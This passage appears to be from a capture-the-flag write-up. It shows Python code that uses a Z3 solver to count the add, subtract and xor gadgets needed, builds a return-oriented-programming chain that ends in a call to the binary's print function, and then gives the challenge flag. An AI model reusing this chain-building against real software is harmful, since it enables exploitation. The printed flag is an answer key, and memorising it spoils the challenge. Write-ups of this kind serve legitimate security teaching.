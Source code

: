 ```py
    m = s.model()

    # Sanity checking.
    print('add vars:', [*map(m.evaluate, add_vars)], '\n')
    print('sub vars:', [*map(m.evaluate, sub_vars)], '\n')
    print('xor vars:', [*map(m.evaluate, xor_vars)], '\n')

    print('total ops:', m.evaluate(Sum(add_vars) + Sum(sub_vars) + Sum(xor_vars)))

    # Prepend 8 bytes of padding for rbp.
    chain = b'A'*8

    # Initialise rax.
    chain += p64(init_rax_addr)

    # Chain add gadgets.
    for bv, g in zip(add_vars, add_gadgets):
        chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

    # Chain subtract gadgets.
    for bv, g in zip(sub_vars, sub_gadgets):
        chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

    # Chain xor gadgets.
    for bv, g in zip(xor_vars, xor_gadgets):
        chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

    # Finally call print.
    chain += p64(elf.sym['print'])

    print('payload length:', len(chain))
    return chain
```

### Flag
```text
gigem{7w0_qu4dr1ll10n?_7h475_r34lly_qu1ck_m47h}
```
